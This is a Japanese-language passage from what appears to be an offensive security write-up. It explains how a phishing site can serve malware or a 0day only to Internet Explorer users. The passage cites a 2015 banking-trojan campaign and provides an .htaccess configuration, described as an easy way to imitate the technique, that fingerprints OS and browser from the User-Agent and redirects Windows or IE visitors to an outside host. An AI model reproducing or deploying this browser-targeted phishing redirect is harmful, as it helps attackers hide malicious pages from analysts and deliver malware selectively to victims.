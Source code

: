 
### 0x05 UserAgentによって挙動を変更する

　入力された情報を抜き取るフィッシングサイトの一例は多いですが、特定の環
境下の場合だけ悪意あるスクリプトを実行させたい場合はどうでしょう？　例え
ばIEのユーザーの場合だけ悪意あるJavaアプレットやマルウェアをダウンロード
させたりすればどうでしょう？
　IEの場合だけ0dayを実行するフィッシングサイトは最近ありました。

http://www.welivesecurity.com/2015/10/15/brolux-trojan-targeting-japanese-banks/

　このサイトはChromeユーザーなどには普通のフィッシングサイトに見えますが、
IEの場合だけ0dayを仕掛けるフィッシングサイトです。それを簡単に真似するに
は二つの方法があります。

```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#.htaccessによるUserAgent制限\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#OSがwindowsでブラウザがIEの場合ruffnex.oc.toにリダイレクトする

<Files \~ "^\.ht">
deny from all
</Files>

RewriteEngine On

SetEnvIfNoCase User-Agent "Windows"         ua_os=windows
SetEnvIfNoCase User-Agent "Mac.*OS"         ua_os=macos
SetEnvIfNoCase User-Agent "Linux"           ua_os=linux
SetEnvIfNoCase User-Agent "BSD"             ua_os=linux
SetEnvIfNoCase User-Agent "Android"         ua_os=android

SetEnvIfNoCase User-Agent "Safari"          ua_browser=safari
SetEnvIfNoCase User-Agent "(MSIE|Trident)"  ua_browser=ie
SetEnvIfNoCase User-Agent "Chrome"          ua_browser=chrome
SetEnvIfNoCase User-Agent "Firefox"         ua_browser=firefox
SetEnvIfNoCase User-Agent "Opera"           ua_browser=opera

RewriteBase /

RewriteCond %{REQUEST_URI} !^http://ruffnex.oc.to/.*$
RewriteCond %{ENV:ua_os} windows [OR]
RewriteCond %{ENV:ua_browser} ie
RewriteRule ^(.*)$ http://ruffnex.oc.to/$1 [R,L]
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
```
